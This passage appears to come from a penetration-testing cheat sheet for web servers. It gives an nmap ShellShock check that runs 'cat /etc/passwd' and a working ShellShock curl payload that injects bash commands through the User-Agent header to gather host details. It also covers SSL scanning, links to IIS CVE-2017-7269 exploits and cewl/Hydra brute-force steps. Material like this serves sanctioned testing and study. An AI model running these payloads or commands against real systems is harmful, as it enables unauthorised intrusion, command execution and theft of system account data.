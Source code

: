 
**ShellShock**

If `cgi-bin` is found, check for `shellshock` vulnerability.

```bash
NS="" ; sudo nmap -n -Pn -T4 -sS -p T:80,443,8080,8443 --script http-shellshock --script-args "uri=/cgi-bin/bin,cmd=cat /etc/passwd" --dns-servers ${NS} -oA recon/nmap-${IP}-shellshock ${IP} 2>/dev/null
```

```text

```


```bash
cmd="hostname;id;pwd;ip a|grep -w inet;uname -a;cat /etc/issue;set" SITE="http://${IP}" ; curl -s -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;${cmd};echo zzzz'" ${SITE} | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

```text

```


**SSL test**

If the site contains `https`, scan for its encryption details. If connection is not allowed, change `MinProtocol` to `None` in `/etc/ssl/openssl.cnf`.

```bash
sslscan ${IP}
```

```text

```


**Exploits**

*IIS*
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
https://www.exploit-db.com/exploits/41738


**Brute-Force**

Check possibilities for generating custom wordlist using,
- `cewl`
- `wordhound`

Check for `brute-force` possibilities using,
- `Hydra`

```bash
cewl ${SITE} -m 6 -w cewl-${IP}.txt
```


#### Apache Tomcat
